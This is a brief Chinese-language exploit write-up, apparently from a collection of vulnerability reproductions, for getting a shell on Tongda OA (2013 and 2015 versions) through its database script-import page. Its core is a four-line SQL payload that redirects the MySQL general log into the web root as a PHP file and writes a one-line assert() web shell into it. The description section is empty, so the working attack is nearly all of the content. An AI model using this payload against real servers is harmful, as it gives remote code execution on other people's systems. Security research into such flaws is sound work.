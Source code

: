 ```yaml
---
title: 通达oa 数据库脚本导⼊getshell
id: zhfly3340
---
```


# 通达oa 数据库脚本导⼊getshell

## 一、漏洞简介

## 二、漏洞影响

2013、2015版本

## 三、复现过程

⾥面的database⻚面可以导入sql脚本文件,但是系统过滤了很多,有很多的限制,使⽤mysql日志的方式进行 突破。

```
set global general_log = on;
set global general_log_file = '../webroot/test.php';
select '<?php assert($_POST[a]) ?>';
set global general_log = off; 
```